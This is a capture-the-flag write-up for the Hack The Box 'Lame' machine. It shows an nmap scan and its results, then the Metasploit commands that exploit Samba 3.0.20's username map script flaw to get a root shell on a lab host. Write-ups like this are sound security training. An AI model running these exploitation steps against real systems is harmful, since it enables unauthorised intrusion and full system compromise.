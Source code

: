 ```yaml
---
title: "Lame"
tags:
  - Easy
  - Linux
  - samba
  - metasploit
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  |  10.10.10.3 |  | [Lame](https://app.hackthebox.com/machines/Lame) |  |

---

### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.3
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
...
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

From our **nmap** scan, we see that we are dealing with a **Linux** machine. Ports **21 (FTP)**, **22 (SSH)**, **139 & 445 (SMB)** and **3632 (distccd)** are open.

---
### SMB "username map script" RCE
Looking through the nmap results, I first noticed that the version of **vsftpd** was **2.3.4**, which I knew had a backdoor vulnerability. However, the backdoor was not exploitable in this instance.

My attention then went to SMB, which was running off version **3.0.20**. 

Searching online, I found that this version of SMB had an [RCE vulnerability](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

By specifying a username containing shell meta characters, attackers are able to execute arbitrary commands. Since there already exists a Metasploit exploit for this vulnerability, I used it to gain access into the target machine:

```shell
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST tun0
run
```

This gave me a root shell, which I could then use to obtain user.txt and root.txt!

![screenshot1](../assets/images/Lame/screenshot1.png)

Note that user.txt can be found in the home directory of the user **makis**.